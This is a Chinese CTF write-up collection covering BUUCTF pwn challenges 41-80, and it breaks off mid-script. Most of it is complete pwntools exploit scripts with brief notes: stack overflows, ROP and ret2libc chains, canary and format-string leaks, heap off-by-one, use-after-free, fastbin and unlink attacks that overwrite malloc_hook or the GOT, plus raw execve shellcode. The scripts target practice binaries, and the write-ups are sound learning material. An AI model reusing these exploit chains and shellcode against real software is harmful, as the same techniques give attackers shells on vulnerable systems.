






BUU PWN题（41 80）
BUU-PWN题（41-80）
bjdctf_2020_babystack2
一开始要求输入一个长度，长度还不能大于 10，但是输入的长度是一个有符号数，可以输入一个负数，然后到了后面成了无符号数，就可以成为一个很大的数字了
同时，程序还有一个后门
#coding:utf-8
from pwn import *
#p = process('./babystack')
p = remote('node3.buuoj.cn',27269)
size=-1
back_door=0x400726
p.sendlineafter('name:\n',str(size))
#payload='aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
payload='a'*24+p64(back_door)
#gdb.attach(p)
p.sendlineafter('name?\n',payload)
p.interactive()
hitcontraining_uaf
释放之后没有置为 0
程序还有一个后门
思路是首先申请两个，然后释放掉，在申请的时候申请一个 0x8 大小的，这样就能申请到第 0 个的结构体那个地方，然后写入后门的地址（本来结构体这个地方放的是 print_note_content）,这样当展示 note 的时候就会调用后门
#coding:utf-8
from pwn import *
#p = process('./pwn')
p = remote('node3.buuoj.cn',28416)
magic_addr=0x8048945
def cmd(choice):
p.sendlineafter('choice :',str(choice))
def addnote(size,content):
cmd(1)
p.sendlineafter('size :',str(size))
p.sendlineafter('Content :',content)
def delete(index):
cmd(2)
p.sendlineafter('Index :',str(index))
def show(index):
cmd(3)
p.sendlineafter('Index :',str(index))
addnote(16,'aaaa') #0
addnote(16,'bbbb') #1
delete(0)
delete(1)
addnote(8,p32(magic_addr))
#gdb.attach(p)
show(0)
p.interactive()
roarctf_2019_easy_pwn
一个笔记系统，先添加然后才能编辑，在编辑的时候，如果输入的 size 比之前创建的时候大 10 的话，就会造成 off by one
先放一下 exp
#coding:utf-8
from pwn import *
from LibcSearcher import *
p = process('./pwn')
#p = remote('node3.buuoj.cn',26046)
def cmd(choice):
p.sendlineafter('choice: ',str(choice))
def create(size):
cmd(1)
p.sendlineafter('size: ',str(size))
def write(index,size,content):
cmd(2)
p.sendlineafter('index: ',str(index))
p.sendlineafter('size: ',str(size))
p.sendlineafter('content: ',content)
def drop(index):
cmd(3)
p.sendlineafter('index: ',str(index))
def show(index):
cmd(4)
p.sendlineafter('index: ',str(index))
create(0x58) #0
create(0x60) #1
create(0x60) #2
create(0x60) #3
create(0x60) #4
write(0, 0x58 + 0xa, 'a'* 0x58 + '\xe1')
drop(1)
create(0x60) #5 = 1
show(2) #2 is unsortbin
p.recvuntil("content: ")
address = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = address - 0x58 - 0x3c4b20
print hex(libc_base)
main_arean = address - 0x58
one = 0x4526a
realloc = libc_base + 0x846c0
print hex(realloc)
fake_chunk = main_arean - 0x33
create(0x60) #2(5)
drop(2)
write(5, 0x8, p64(fake_chunk))
create(0x60) #5 = 2
create(0x60) #6 fake chunk
realloc_addr=libc_base+libc.symbols['__libc_realloc']
payload = '\x00'*11 + p64(one + libc_base) + p64(realloc+2)
write(6, len(payload), payload)
gdb.attach(p)
create(255)
p.interactive()
希望把 chunk 放到 unsorted bin 中，然后通过 fd 指针来拿到 unsorted bin 的地址，从来获得 libc 的地址，但程序使用的是 colloc，他会把申请的内存块给清空，所以不能通过申请一个在 unsorted bin 范围内的 chunk，free 之后申请过来泄露地址，可以通过先申请几个，然后通过第 0 个的 off by one 把第 1 个的 size 给改掉，让他包含上第 2 个，然后把第一个 free 的时候，会把第 1 和 第 2 个一起放到 unsorted bin 中，然后申请回来第 1 个，这时候第二个的 fd 指针就指向了 unsorted bin 的地址
首先申请一些堆块
create(0x58) #0这一个必须要0x8结尾,不然的话没法溢出到size那里
create(0x60) #1
create(0x60) #2
create(0x60) #3
create(0x60) #4
然后对第 0 个进行编辑 write(0, 0x58 + 0xa, 'a'* 0x58 + '\xe1') 通过 off by one 把第 1 个的 size 给改成 0xe1
这时候 free 掉第 1 个，会放到 unsorted bin 中，然后他的 fd、bk 会指向 unsorted bin 的地址
这时候我们去把第 1 个申请回来，因为是 colloc 所以会置 0，但是我们可以用第 2 个来获得 unsorted bin 的地址
这个地址是 unsorted bin 链表的头部，跟 main_arena 的偏移固定 0x58，同时 main_arena 跟 libc 的偏移可以通过工具计算出来 https://github.com/bash-c/main_arena_offset
show(2) #2 is unsortbin
p.recvuntil("content: ")
address = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = address - 0x58 - 0x3c4b20
然后再去申请 unsorted bin 中剩下的那块，这算第 5 个（第 2 个也指向他）
然后通过编辑第 5 个来修改他的 fd 的内容为 main_arean - 0x33 在 malloc_hook 附近，这个偏移是为了通过 size 的检查，这样能让他有个 0x7f 的 size
然后申请两次，就会申请到 fake_chunk（第 6 个），这时候编辑第六个的内容为 '\x00'*11 + p64(one + libc_base) + p64(realloc+2)
前面的 11 个 '\x00' 有 3 个是为了把错位给纠正过来，然后一个 0x10 是为了占空，再往后写就是覆写 relloc_hook 了，然后是 malloc_hook 的内容
这样写的原因是，one_gadget 的执行有时候需要一些条件
当不满足这些条件的时候，可以通过调用 realloc 函数调整 rsp （可以试一下哪些可以正常用，比如这道题就是 realloc_addr+2）
所以上面意思是，先把 one_gadget 写到 realloc_hook 中，然后把 realloc_hook 写到 malloc_hook 中，当去 malloc 的时候会先去执行 malloc_hook（这里就是 realloc_hook），然后执行 realloc_hook 里的 one_gadget 从而拿到 shell
[V&N2020 公开赛]simpleHeap
跟上面那个大同小异，EXP：
#coding:utf-8
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
p = process('./pwn')
#p = remote('node3.buuoj.cn',29221)
def cmd(choice):
p.sendlineafter('choice: ',str(choice))
def create(size,content):
cmd(1)
p.sendlineafter('size?',str(size))
p.sendlineafter('content:',content)
def edit(index,content):
cmd(2)
p.sendlineafter('idx?',str(index))
p.sendlineafter('content:',content)
def show(index):
cmd(3)
p.sendlineafter('idx?',str(index))
def delete(index):
cmd(4)
p.sendlineafter('idx?',str(index))
create(0x58,'aaaa') #0
create(0x60,'bbbb') #1
create(0x60,'cccc') #2
create(0x60,'dddd') #3
edit(0, 'a'* 0x58 + '\xe1')
delete(1)
create(0x60,'ffff') #4(1)
show(2) #2 is unsortbin
address = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = address - 0x58 - 0x3c4b20
main_arean = address - 0x58
one_gadget = libc_base+0x4526a
realloc = libc_base + 0x846c0
fake_chunk = main_arean - 0x33
create(0x60,'yichen') #4(2)
delete(3)
delete(2)
edit(4, p64(fake_chunk))
create(0x60,'')
payload = p8(0)*11
payload += p64(one_gadget)
payload+= p64(libc_base+0x846C0+0xc)
create(0x60,payload)
p.recvuntil("choice: ")
p.sendline(str(1))
p.recvuntil("size?")
p.sendline(str(0x10))
p.interactive()
实现了这么些功能
在 edit 的时候，应该是 >=，这里是 > 造成了 off by one
先申请一些堆空间，注意第 0 个大小是 0x58，是为了占用第 1 个的 prev_size，待会能够 off by one
成功覆盖掉下一个的 size 位

这时候对刚才修改的那个 chunk 进行 free，他会放到 unsorted bin 中，同时 fd、bk 指向 unsorted bin
但是这个是释放的，没法 show，那先把他申请掉，然后通过 show 他后面的第 2 个来获得 unsorted bin 的地址，来计算 libc
看一下各个偏移
下面再申请一个，他与第 2 个指向相同的地址 create(0x60,'yichen') 把他叫做第 4 个
然后释放掉第 3、2 个，通过第 4 个编辑第 2 个的 fd 指针为 fake_chunk 的地址
然后再去申请，第一次是把第 2 个申请回来（这里我纠结了好久，以为他要一直保存这个 fake_chunk 的地址，改了半天也没打通，结果又拿上一道题仔细看了一下，申请回来之后覆盖掉也没关系），然后就是第 2 个的 fd 指针指向的位置了，所以第二次申请就该发 payload 了
payload = p8(0)*11
payload += p64(one_gadget)
payload+= p64(libc_base+0x846C0+0xc)
create(0x60,payload)
然后再去 malloc 一下就行了，但因为我们改掉了 malloc_hook，不会返回 'content:' 了，如果用上面定义的 create 会一直等待，所以单独拿出来去申请一下就行了
jarvisoj_test_your_memory
程序有一个 system 函数，可以找到 cat flag 的字符串 0x080485BD 0x80487E0
#coding:utf-8
from pwn import *
from LibcSearcher import *
#p=process('./memory')
p=remote('node3.buuoj.cn',28186)
sys_addr=0x080485BD
flag_addr=0x80487E0
payload='a'*0x17+p32(sys_addr)+p32(sys_addr)+p32(flag_addr)
p.sendline(payload)
p.interactive()
[ZJCTF 2019]Login
逆向不出来
from pwn import *
io = remote('node3.buuoj.cn',28035)
shell = 0x400e88
io.sendlineafter(': ','admin')
io.sendlineafter(': ','2jctf_pa5sw0rd'+'\x00'*58+p64(shell))
io.interactive()
[ZJCTF 2019]EasyHeap
创建完成之后编辑的时候输入的 size 没有做检查
首先申请 3 个 chunk
create(0x58,'aaaa') #0
create(0x60,'bbbb') #1
create(0x60,'cccc') #2
然后 drop 掉第 2 个，然后通过编辑第一个把本来的第 2 个的 fd 指针覆盖为 0x6020ad，这是 0x6020b0-3 得到的，0x6020b0 是 heaparray 数组

希望通过错位来有一个 0x7f 的 size

下面，先加上 3 把错位对齐，然后四个 p64(0) 是为了占位，再写 p64(elf.got['free']) 就是 heaparray 数组了 把他给覆盖掉，现在 heaparray 指向的是 free 的 got 表了（本来指向第 0 个 chunk 的地址），这时候修改第 0 个，就能改掉 free 的 got 表
改掉！改成 system
然后再 free 1 就好了（之前把 1 上写上 /bin/sh 了）
#!/usr/bin/env python
#coding=utf-8
from pwn import*
#context.log_level = 'debug'
#p=process('./easyheap')
p=remote('node3.buuoj.cn',28007)
elf=ELF('./easyheap')
def cmd(choice):
p.sendlineafter('choice :',str(choice))
def add(size,content):
cmd(1)
p.recvuntil("Heap : ")
p.sendline(str(size))
p.recvuntil("heap:")
p.send(content)
def edit(index,size,content):
cmd(2)
p.recvuntil("Index :")
p.sendline(str(index))
p.recvuntil("Heap : ")
p.sendline(str(size))
p.recvuntil("heap : ")
p.send(content)
def drop(index):
cmd(3)
p.recvuntil("Index :")
p.sendline(str(index))
add(0x68,"aaaa") # 0
add(0x68,"bbbb") # 1
add(0x68,"cccc") # 2
drop(2)
payload = "/bin/sh\x00" + "a"*0x60 + p64(0x71) + p64(0x6020b0-3)
edit(1,len(payload),payload)
add(0x68,"cccc") # 2
payload = "a"*3 + p64(0)*4 + p64(elf.got['free'])
add(0x68,payload)
payload = p64(elf.plt['system'])
print hex(elf.plt['system'])
edit(0,len(payload),payload)
drop(1)
p.interactive()
cmcc_simplerop
32 位程序，栈空间 32，开启了栈不可执行，没有可以利用的后门，尝试 ret2syscall
那么问题来了 /bin/sh 的地址在哪里？，bss 段是可读可写的，那就用 read 函数写到里面去

exp： ret2shellcode（修改 mprotect）
from pwn import *
p = process('./simplerop')
#p=remote('node3.buuoj.cn',25858)
elf = ELF('./simplerop')
bss = elf.bss()
mprotect_addr = elf.sym['mprotect']
read_addr = elf.sym['read']
pop3 = 0x08048913
payload = 'a'*32+p32(mprotect_addr)+p32(pop3)+p32(0x80ea000)+p32(0x1000)+p32(0x7)
payload += p32(read_addr)+p32(pop3)+p32(0)+p32(bss+0x50)+p32(0x50)+p32(bss+0x50)
p.recvuntil(':')
p.send(payload)
sleep(1)
p.send(asm(shellcraft.sh()))
p.interactive()
ret2syscall
from pwn import *
context.log_level = 'debug'
p=process('./simplerop')
int_80 = 0x80493e1
pop_eax = 0x80bae06
read_addr = 0x0806CD50
binsh_addr = 0x080EB584
pop_edx_ecx_ebx = 0x0806e850
payload = 'a'*0x20 + p32(read_addr) + p32(pop_edx_ecx_ebx) + p32(0) + p32(binsh_addr) + p32(0x8) + p32(pop_eax) + p32(0xb) + p32(pop_edx_ecx_ebx) + p32(0) + p32(0) + p32(binsh_addr) + p32(int_80)
p.sendline(payload)
p.send('/bin/sh\x00')
p.interactive()
ciscn_2019_n_3
可以看一下大致的结构，首先一个 0xc 大小的用来存放 print 函数、free函数的地址，然后还有存放这个 index 执行的 chunk 的地址
free 的时候没有进行置零，所以存在 uaf
#!/usr/bin/env python
#coding=utf-8
from pwn import *
from LibcSearcher import *
import sys
#context.log_level = 'debug'
p=process('./ciscn' )
elf=ELF('./ciscn' )
libc=elf.libc
def add(index,len,content):
p.sendlineafter('CNote > ',str(1))
p.sendlineafter('Index > ',str(index))
p.sendlineafter('Type > ',str(2))
p.sendlineafter('Length > ',str(len))
p.sendlineafter('Value > ',content)
def delete(index):
p.sendlineafter('CNote > ',str(2))
p.sendlineafter('Index > ',str(index))
add(0,0x10,'yichen')
add(1,0x10,'writeup')
gdb.attach(p)
delete(0)
delete(1)
#释放掉之后有两个空闲的0xc大小的chunk
add(2,0xc,'sh\x00\x00'+p32(elf.sym['system']))
#去申请0xc大小的chunk首先会申请到第1个的0xc就是数组records[v2],然后是第0个的0xc用来存放内容
#那我们就可以修改第0个,把print的地址改成sh,把free的地址改成system的地址
#从那个伪代码可以看到free(ptr+2),即print的位置
delete(0)
p.interactive()
bjdctf_2020_babyrop2
通过格式化字符串泄漏 canary，然后 rop（还是第一次做这样的）
通过 AA%n$p 来测试出我们的 格式化字符串是在哪个位置 AA%6$p 的时候输出了 4141，所以第六个参数可以被解析成格式化字符串
canary 的位置是 rbp-8
在 gdb 里面调试看看（%7$p 就能把 canary 给打印出来）
#!/usr/bin/env python
#coding=utf-8
from pwn import *
from LibcSearcher import *
#p=process('./babyrop2')
p=remote('node3.buuoj.cn',29772)
elf=ELF('./babyrop2')
put_plt=elf.plt['puts']
put_got=elf.got['puts']
pop_rdi=0x0400993
main_addr=elf.symbols['main']
vuln_addr=0x400887
p.sendlineafter('help u!\n','%7$p')
p.recvuntil('0x')
canary = int(p.recv(16),16)
payload = p64(canary)
payload = payload.rjust(0x20,'a')+'a'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(vuln_addr)
p.sendlineafter('story!\n',payload)
put_addr=u64(p.recv(6).ljust(8,'\x00'))
libc=LibcSearcher('puts',put_addr)
libcbase=put_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload = p64(canary)
payload = payload.rjust(0x20,'a')+'a'*8+p64(pop_rdi)+p64(binsh_addr)+p64(system_addr)+p64(vuln_addr)
p.sendlineafter('story!\n',payload)
p.interactive()
bjdctf_2020_router
emmmm，命令执行，一个 system 函数，直接写上 ; sh
#######[V&N2020 公开赛]easyTHeap
实现的功能

add 的时候对于 size 的要求是大于 0 小于 256 也就是 0x100
只能创建 7 个
delete 的时候，后面那个置零操作并没有把申请的那个给置零，而是把 size 给置零了
我没法调试...
ciscn_2019_final_3
jarvisoj_level1
给的文件跟远程不一样，用 ret2libc 的方法做（本地不通，libcsearcher 找不到 libc）
from pwn import *
from LibcSearcher import *
#p = process('./level1')
p=remote('node3.buuoj.cn',26010)
elf = ELF('./level1')
write_plt=elf.plt['write']
write_got=elf.got['write']
main_addr=elf.symbols['main']
payload1='A'*140+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)
p.sendline(payload1)
write_addr = u32(p.recv(4))
print hex(write_addr)
libc=LibcSearcher('write',write_addr)
libcbase=write_addr-libc.dump("write")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload='A'*140+p32(system_addr)+p32(0xbeadbeef)+p32(binsh_addr)
p.sendline(payload)
p.interactive()
picoctf_2018_rop chain
首先，在 vuln 函数里面有个栈溢出
在 flag 函数里面可以看到，想要输出 flag，需要满足这个条件
from pwn import *
from LibcSearcher import *
p = process('./rop')
#p=remote('node3.buuoj.cn',29869)
win1_addr=0x80485CB
win2_addr=0x80485D8
flag_addr=0x804862B
pop_addr=0x080485d6
payload='a'*28+p32(win1_addr)+p32(win2_addr)+p32(flag_addr)+p32(0xBAAAAAAD)+p32(0xDEADBAAD)
#先返回到win1使得win1=1
#然后返回到win2,因为要与ebp+8进行比较,所以中间加了个flag_addr
#比较好了返回到flag_addr
#然后与ebp+8进行比较正好夹了个0xBAAAAAAD
p.sendline(payload)
p.interactive()
其实那些数在汇编里都有了
pwnable_orw
要自己写 shellcode，可以使用 shellcraft
from pwn import *
context.log_level = "debug"
context.arch = "i386"
p = remote("node3.buuoj.cn",29300)
bss = 0x804A060
shellcode = shellcraft.open('flag')
shellcode += shellcraft.read('eax',bss+100,100)
shellcode += shellcraft.write(1,bss+100,100)
p.sendline(asm(shellcode))
p.interactive()
gyctf_2020_borrowstack
通过栈迁移放到距离 bss 开始稍微远一点的地方，然后 puts 把 puts 的真实地址写出来，计算出 libc 的基址，用 one_gadget 就可以啦
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level='debug'
#p=process('./pwn')
p=remote('node3.buuoj.cn',25777)
elf=ELF('./pwn')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
leave_addr=0x400699
pop_rdi=0x400703
bss_addr=0x601080
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
main=elf.symbols['main']
p.recvuntil('want')
payload='a'*0x60+p64(bss_addr+0xa0)+p64(leave_addr)
p.send(payload)
p.recvuntil('now!')
payload1='a'*0xa8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload1)
puts_addr=u64(p.recvuntil('\x7f')[1:8].ljust(8,'\x00'))
libcbase=puts_addr-libc.sym['puts']
one_gadget=libcbase+0x45226
p.sendline('a'*0x68 + p64(one_gadget))
p.interactive()
[V&N2020 公开赛]warmup
这里溢出了 0x10 的大小
但是在他前面，读入了 0x180，而且也是在 buf 里面

这样的话他俩就连起来了
这个东西是一个沙箱，禁用了一些函数比如 execve
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level = "debug"
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process("./warmup")
#p = remote("node3.buuoj.cn",28968)
p.recvuntil("gift: ")
#puts_addr=u64(p.recvuntil('\x7f')[1:8].ljust(8,'\x00'))
puts_addr = int(p.recvuntil('\n'),16)
print hex(puts_addr)
libc_base = puts_addr - libc.sym['puts']
pop_rdi = libc_base + 0x0000000000021102
pop_rsi = libc_base + 0x00000000000202e8
pop_rdx = libc_base + 0x0000000000001b92
ret_addr = libc_base + 0x0000000000000937
read_addr = libc.sym['read'] + libc_base
open_addr = libc.sym['open'] + libc_base
write_addr = libc.sym['write'] + libc_base
bss_addr = libc_base + 0x3c6500
payload = p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(bss_addr) + p64(pop_rdx) + p64(0x100) + p64(read_addr)
#read(0,buf,100)把/flag读到bss_addr
payload += p64(pop_rdi) + p64(bss_addr) + p64(pop_rsi) + p64(0) + p64(open_addr)
#open('/flag',0)打开/flag
payload += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(bss_addr) + p64(pop_rdx) + p64(0x100) + p64(read_addr)
#read(3,buf,100)这里的3表示从open的文件中读入
payload += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(bss_addr) + p64(pop_rdx) + p64(0x100) + p64(write_addr)
#write(1,buf,100)输出flag
p.sendlineafter('something: ',payload)
p.recvuntil('name?')
payload = 'a'*0x70 + p64(0xdeadbeef) +p64(ret_addr)
p.send(payload)
p.sendline('/flag\x00')
p.interactive()
bbys_tu_2016
#!/usr/bin/python
#coding:utf-8
from pwn import *
context.log_level = "debug"
#p = process("./bby")
p = remote("node3.buuoj.cn",28132)
flag_addr=0x804856D
payload='a'*24+p32(flag_addr)
p.sendline(payload)
p.interactive()
xdctf2015_pwn200
########axb_2019_fmt32
others_babystack
from pwn import *
context.log_level = 'debug'
#p=process('./babystack')
p=remote('node3.buuoj.cn',29496)
elf = ELF('./babystack')
libc=ELF('./libc-2.23.so')
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
pop_rdi = 0x400a93
ret = 0x400a2a
main_addr=0x400908
payload='leak:'
payload = payload.rjust(0x88,'a')
p.recvuntil('>> ')
p.sendline('1')
p.sendline(payload)
p.recvuntil('>> ')
p.sendline('2')
p.recvuntil('leak:\n')
canary=u64(p.recv(7).rjust(8,'\x00'))
print "============="
print hex(canary)
print "============="
payload1 = 'a'*0x88 + p64(canary)+'a'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
p.sendlineafter('>>','1')
p.sendline(payload1)
p.sendlineafter('>>','3')
p.recv()
puts_addr = u64(p.recv(6).ljust(8,'\x00'))
print "=========="
print hex(puts_addr)
print "=========="
libcbase = puts_addr - libc.symbols['puts']
system = libcbase + libc.symbols['system']
binsh = libcbase + libc.search('/bin/sh').next()
payload2 = 'a' * 0x88 + p64(canary) + 'b' * 0x8
payload2 += p64(pop_rdi) + p64(binsh) + p64(system)
p.sendlineafter('>>','1')
p.sendline(payload2)
p.sendlineafter('>>','3')
p.interactive()
[BJDCTF 2nd]secret
buf 哪里有个缓冲区溢出

可以把这个 off_46D090 给覆盖掉，而这个 off_46D090 每次成功的时候都会把指向的值 -1
同时 system 和 printf 的地址挨的很近
如果通过栈溢出，把 off_46D090 写成 printf 的地址，第 15 次，就正好到了 system 哪里，再故意输错就能调用啦
再来看看那个判断输入的对不对的函数
挨个找出来 15 个就可以了
#coding:utf8
from pwn import *
#sh = process('./secret')
sh = remote('node3.buuoj.cn',26618)
elf = ELF('./secret')
printf_got = elf.got['printf']
answer = [0x476B,0x2D38,0x4540,0x3E77,0x3162,0x3F7D,0x357A,0x3CF5,0x2F9E,0x41EA,0x48D8,0x2763,0x474C,0x3809,0x2E63]
payload = b'/bin/sh\x00'.ljust(0x10,b'\x00') + p32(printf_got)
sh.sendafter("What's your name?",payload)
for x in answer:
sh.sendlineafter('Secret:',str(x))
sh.sendlineafter('Secret:','1')
sh.interactive()
picoctf_2018_buffer overflow 1
#coding:utf8
from pwn import *
#p=process('./pwn')
p=remote('node3.buuoj.cn',26955)
win_addr=0x80485CB
payload='a'*44+p32(win_addr)
p.sendline(payload)
p.interactive()
picoctf_2018_buffer overflow 2
需要检查的那两个参数分别是：0xDEADBEEF 和 0xDEADC0DE 那么稍微改一下：
#coding:utf8
from pwn import *
p=process('./pwn')
#p=remote('node3.buuoj.cn',26955)
win_addr=0x80485CB
payload='a'*112+p32(win_addr)+p32(1234)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
p.sendline(payload)
p.interactive()
pwnable_start
IDA 好贴心还给我把参数给注释出来了

第一次通过返回到 0x08048087 把 esp 的内容给打印出来，得到栈的地址，然后往栈上写 shellcode
from pwn import *
p = remote('node3.buuoj.cn',25184)
#p=process('./start')
payload = 'a'*20 + p32(0x08048087)
#gdb.attach(p,'b*0x08048087')
p.recvuntil(':')
p.send(payload)
leak=u32(p.recv(4));
shellcode= '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
payload= 'a'*20 + p32(leak+20)+shellcode
p.send(payload)
p.interactive()
inndy_rop
用 ROPgadget --binary rop --ropchain 生成 rop 链，加上偏移直接打
from pwn import *
s = remote('node3.buuoj.cn',26553)
#s=process('./rop')
from struct import pack
def hack():
# Padding goes here
p = 'a'*16
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
s.sendline(p)
hack()
s.interactive()
hitcontraining_magicheap
相关知识：https://www.yuque.com/hxfqg9/bin/tubv6q 程序有一个后门
而且只要满足这样的条件程序就会调用它
magic 的地址是 0x6020A0 首先 create 3 个 chunk（为了防止与 top chunk 合并） 释放掉中间那个，通过编辑第一个 chunk，堆溢出把中间那个 chunk 的 bk 改成 magic-0x10 的地址，然后再申请回来，这时候因为 unlink 就会把 magic 写入 unsorted bin 的链表头部地址，就大于要求的那个数了
改写一下
from pwn import *
#p = remote('node3.buuoj.cn',26553)
context.log_level='debug'
p=process('./heap')
def cmd(choice):
p.sendlineafter('Your choice :',str(choice))
def create(size,content):
cmd(1)
p.sendlineafter('Size of Heap : ',str(size))
p.sendlineafter('Content of heap:',content)
def edit(index,size,content):
cmd(2)
p.sendlineafter('Index :',str(index))
p.sendlineafter('Size of Heap : ',str(size))
